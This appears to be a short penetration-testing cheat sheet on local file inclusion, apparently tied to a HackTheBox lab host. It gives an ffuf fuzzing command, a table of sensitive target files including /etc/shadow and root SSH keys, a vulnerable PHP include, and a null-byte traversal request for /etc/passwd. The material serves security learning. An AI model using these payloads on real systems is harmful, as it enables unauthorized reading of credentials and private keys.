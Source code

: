 # LFI enumeration
Read more https://book.hacktricks.xyz/pentesting-web/file-inclusion

```bash
# Enumerate the page query parameter for LFI vulneratbility
ffuf -w /usr/share/wordlists/lfi.txt -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -fw 1
```

### Common path to test
|                             |                                                                                                                                                                   |
|:---------------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------:|
| /etc/issue                  | Contains a message or system identification to be printed before the login prompt.                                                                                |
| /etc/profile                | Controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived |
| /proc/version               | Specifies the version of the Linux kernel                                                                                                                         |
| /etc/passwd                 | Has all registered user that has access to a system                                                                                                               |
| /etc/shadow                 | Contains information about the system's users' passwords                                                                                                          |
| /root/.bash_history         | Contains the history commands for root user                                                                                                                       |
| /var/log/dmessage           | Contains global system messages, including the messages that are logged during system startup                                                                     |
| /var/mail/root              | All emails for root user                                                                     |
| /root/.ssh/id_rsa           | Private SSH keys for a root or any known valid user on the server                                                 |
| /var/log/apache2/access.log | The accessed requests for Apache  webserver                                                            |
| C:\boot.ini                 | Contains the boot options for computers with BIOS firmware                                                    |

### Test if null bytes can be used to bypass file extensions
It may be possible to override the end of the include statement by sending a null byte which tricks the application to disregard anything after it. `%00` (Url encoded) or `0x00` (Hex).

An include like this 

```php
include($_GET["filename"] . ".php");
```

Could be vulnerable to an attack like this. (Fixed in PHP 5.3.4 and above.)


```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd%00
```
